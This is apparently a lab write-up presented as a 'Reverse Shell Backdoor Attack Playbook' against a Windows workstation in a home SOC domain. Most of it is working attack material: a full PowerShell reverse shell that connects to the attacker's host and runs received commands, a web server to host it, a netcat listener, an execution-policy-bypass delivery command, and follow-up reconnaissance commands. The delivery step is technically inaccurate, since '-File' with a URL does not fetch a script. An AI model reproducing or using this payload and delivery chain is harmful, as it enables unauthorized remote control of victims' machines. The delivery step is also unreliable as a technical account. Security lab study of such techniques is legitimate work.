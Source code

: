 
# Reverse Shell Backdoor Attack Playbook

## Overview

This project demonstrates how to create and deploy a malicious PowerShell script to establish a reverse shell on a Windows workstation. The attacker uses Kali Linux to serve the payload and capture the connection, giving them remote access to the victim's machine.

- **Target:** Windows Workstation (SOC.LAB domain)
  - **IP Address:** 192.168.10.20
  - **Domain:** SOC.LAB
- **Attacker:** Kali Linux
  - **IP Address:** 192.168.20.30

## Objective
1. Create a malicious PowerShell script (malicious.ps1) to establish a reverse shell backdoor.
2. Use a web server to serve the payload to the target Windows machine.
3. Make the Windows user download and execute the malicious script.
4. Gain remote access to the victim's machine and execute commands of the attacker's choice.

## Attack Execution Timeline

### 1. **Create Malicious PowerShell Payload**

Firstly, I created a malicious PowerShell script (`malicious.ps1`) that establishes a reverse shell back to my Kali's machine, based on this git and forum (([git](https://github.com/das-lab/mpsd) and [this](https://learn.microsoft.com/en-us/defender-endpoint/run-detection-test?source=recommendations&view=o365-worldwide):

```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.20.30", 4444)
$stream = $client.GetStream()
$writer = New-Object System.IO.StreamWriter($stream)
$reader = New-Object System.IO.StreamReader($stream)

# Send a message to confirm the connection
$writer.WriteLine("Connected to backdoor!")
$writer.Flush()

while ($true) {
    # Receive command from the attacker
    $command = $reader.ReadLine()
    
    # If the command is "exit", close the connection
    if ($command -eq "exit") {
        break
    }
    
    # Execute the command on the Windows machine and capture output
    $output = Invoke-Expression $command 2>&1
    
    # Send the output back to the attacker
    $writer.WriteLine($output)
    $writer.Flush()
}

# Close the connection
$client.Close()
```

### 2. **Set Up HTTP Server to Serve Payload**

Once the payload script was created, the attacker needed to serve it to the victim machine. This was done by using a simple HTTP server on Kali Linux to host the malicious script:

```bash
python3 -m http.server 80
```

This command starts a web server on port `80` of Kali Linux, making the malicious script accessible to the victim.

### 3. **Start Listener on Kali Linux**

Next, the attacker needs to listen for an incoming connection from the reverse shell. This was done using Netcat (`nc`) on Kali Linux:

```bash
nc -lvnp 4444
```

This command listens on port `4444` and waits for a connection from the victim’s machine once the reverse shell script is executed.

### 4. **Victim Downloads and Executes the Malicious Payload**

The attacker then used the following PowerShell command to force the victim to download and execute the malicious payload:

```powershell
powershell -ExecutionPolicy Bypass -File "http://192.168.20.30/malicious.ps1"
```

This command bypasses the PowerShell execution policy and downloads the malicious script from the attacker’s web server to the target machine. Once executed, the script initiates the reverse shell and connects back to the attacker’s machine.

### 5. **Gaining Access to the Windows Workstation**

Once the malicious PowerShell script was executed on the victim’s machine, the reverse shell successfully connected to the attacker’s machine. The attacker now had remote access to the Windows workstation and could run commands on it.

### 6. **Execute Commands on the Target Machine**

After establishing the reverse shell, the attacker could run various commands to gather information about the system. Some useful commands executed during the attack include:

- **`whoami`** – To confirm the user currently logged in:
  ```bash
  whoami
  ```

- **`tasklist`** – To list all running processes:
  ```bash
  tasklist | Out-String
  ```

- **`net user`** – To list all user accounts on the system:
  ```bash
  net user | Format-Table
  ```

- **`net user labadmin`** – To get detailed information about the `labadmin` user:
  ```bash
  net user labadmin
  ```

These commands helped the attacker confirm the identity of the user, gather information about the system, and identify potential targets for further exploitation.

## Conclusion

In this project, the attacker:

1. **Created Malware**: A malicious PowerShell script (`malicious.ps1`) that establishes a reverse shell backdoor.
2. **Made the Victim Download the Malware**: The attacker used a simple HTTP server to serve the payload and a PowerShell command to make the victim download and execute the script.
3. **Gained Access to the Windows Workstation**: The reverse shell connected back to the attacker’s machine, giving them full remote control over the victim’s system.

With this access, the attacker could now run arbitrary commands, escalate privileges, maintain persistence, and continue exploiting the system.

## Disclaimer

This project is intended for educational purposes only. It demonstrates a common attack technique used in penetration testing to simulate how an attacker might gain remote access to a target system. Unauthorized access to computer systems is illegal and unethical. Always ensure you have explicit permission before conducting any form of penetration testing or attack simulation.
